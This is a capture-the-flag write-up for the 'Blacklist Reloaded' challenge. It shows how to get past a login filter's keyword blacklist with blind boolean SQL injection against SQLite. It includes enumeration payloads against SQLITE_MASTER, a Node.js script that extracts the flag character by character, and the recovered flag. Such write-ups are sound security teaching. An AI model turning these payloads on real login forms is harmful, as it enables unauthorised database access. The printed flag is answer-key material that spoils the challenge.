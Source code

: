 *Name*: Blacklist Reloaded  
*Instructions*: Maybe I'm foolish, maybe I'm blind, thinking I can see through this and see what's behind! Can you get the flag from http://challenges.runesec.com:15123 ?  
*Hint*: Can you leak out any information? You might like it :)  

### Exploration
We know this is another challenge of SQL injection with a blacklist.
We are given a login interface with Username and Password fields. We assume the following query is invoked on the login server:  
`SELECT * FROM ??? WHERE username="{sqli input}" AND password="{sqli input}"`  

We can start by finding what's in the blacklist and what we can actually use.  
*(If a blacklisted term is found in the input, a special page is returned saying that a blacklisted term was used)*  
Some of the blacklisted semantics: `', ;, =, UNION`  
Some of the semantics we can use: `", OR, AND, EXISTS, SELECT, WHERE, LIKE, %, /*, --`

### Exploitation
We start pretty simple:  
`" OR 1 /*`
- `"` to validly close the opened quotes that expect to contain the username.
- `OR 1` because ORing something TRUE, makes the whole expression to evaluate as TRUE.
- `/*` is a multi-line comment to escape anything that comes after our crafted query and avoid errors.  

This works, kinda. We go through the login wall successfully, but the page we land reads:  
`Well done, but the flag is not here`

This will prove helpful. We know whatever statement we put after `OR`, will be true only if we land on this page, otherwise we'll get to a page that reads `Login failed`.

#### Finding table names:
From https://www.sqlite.org/faq.html:
```
Every SQLite database has an SQLITE_MASTER table that defines the schema for the database.  
The SQLITE_MASTER table looks like this:

CREATE TABLE sqlite_master (
  type TEXT,
  name TEXT,
  tbl_name TEXT,
  rootpage INTEGER,
  sql TEXT
);
For tables, the type field will always be 'table' and the name field will be the name of the table.
```
We can start discovering table names as follows:  
`" OR EXISTS(SELECT * FROM SQLITE_MASTER WHERE type LIKE "table" AND name LIKE "a%") /*` FAIL  
`" OR EXISTS(SELECT * FROM SQLITE_MASTER WHERE type LIKE "table" AND name LIKE "b%") /*` FAIL  
`" OR EXISTS(SELECT * FROM SQLITE_MASTER WHERE type LIKE "table" AND name LIKE "c%") /*` FAIL  
`" OR EXISTS(SELECT * FROM SQLITE_MASTER WHERE type LIKE "table" AND name LIKE "d%") /*` FAIL  
`" OR EXISTS(SELECT * FROM SQLITE_MASTER WHERE type LIKE "table" AND name LIKE "e%") /*` FAIL  
`" OR EXISTS(SELECT * FROM SQLITE_MASTER WHERE type LIKE "table" AND name LIKE "f%") /*` SUCCESS  
Great! We now know there's a table that starts with the letter `f`.  
`" OR EXISTS(SELECT * FROM SQLITE_MASTER WHERE type LIKE "table" AND name LIKE "fa%") /*` FAIL  
`" OR EXISTS(SELECT * FROM SQLITE_MASTER WHERE type LIKE "table" AND name LIKE "fb%") /*` FAIL  
...  
`" OR EXISTS(SELECT * FROM SQLITE_MASTER WHERE type LIKE "table" AND name LIKE "fl%") /*` SUCCESS   
Great! We now know there's a table that starts with `fl`.  

Repeating the process, for the rest of the table name we discover a table named `flagHERE`.  
*(We can figure out when we've discovered the full table name when we exhaust all the possible characters to be appended to the current discovered name, but they all fail)*

We guess there's a column named `flag` in table `flagHERE` and we can use the same methodology as above to discover the flag, one character at a time.

### Solution 
```
var axios = require('axios');

var URL         = 'http://challenges.runesec.com:15123/login.php';
var LEN_FLAG    = 32 + 4 + 2;
var SUCCESS_MSG = 'Well done, but the flag is not here'

var d = ('0123456789abcdef' + 'lg{}').split('');

var step = function(i, c, flag) {
    if (i >= LEN_FLAG) return;
    if (c >= d.length) return;
    var fflag = flag + d[c];
    var query = '" OR EXISTS(SELECT flag FROM flagHERE WHERE flag LIKE "' + fflag + '%") /*';
    axios.post(URL, 'username=' + query, { headers: {'Content-Type': 'application/x-www-form-urlencoded' }})
    .then(function(res) {
      var success = res.data.indexOf(SUCCESS_MSG) !== -1;
      if (success) {
        console.log(fflag);
        step(i + 1, 0, fflag);
      } else {
        step(i, c + 1, flag);
      }
    });
}
step(0, 0, '');

f
fl
fla
flag
flag{
flag{c
flag{c6
flag{c6a
flag{c6a7
flag{c6a7e
flag{c6a7ee
flag{c6a7eee
flag{c6a7eee6
flag{c6a7eee68
flag{c6a7eee68d
flag{c6a7eee68d1
flag{c6a7eee68d18
flag{c6a7eee68d185
flag{c6a7eee68d1851
flag{c6a7eee68d18518
flag{c6a7eee68d185186
flag{c6a7eee68d1851866
flag{c6a7eee68d18518663
flag{c6a7eee68d18518663b
flag{c6a7eee68d18518663b7
flag{c6a7eee68d18518663b76
flag{c6a7eee68d18518663b76d
flag{c6a7eee68d18518663b76da
flag{c6a7eee68d18518663b76dab
flag{c6a7eee68d18518663b76dab1
flag{c6a7eee68d18518663b76dab17
flag{c6a7eee68d18518663b76dab17f
flag{c6a7eee68d18518663b76dab17f9
flag{c6a7eee68d18518663b76dab17f99
flag{c6a7eee68d18518663b76dab17f990
flag{c6a7eee68d18518663b76dab17f990a
flag{c6a7eee68d18518663b76dab17f990a5
flag{c6a7eee68d18518663b76dab17f990a5}
```
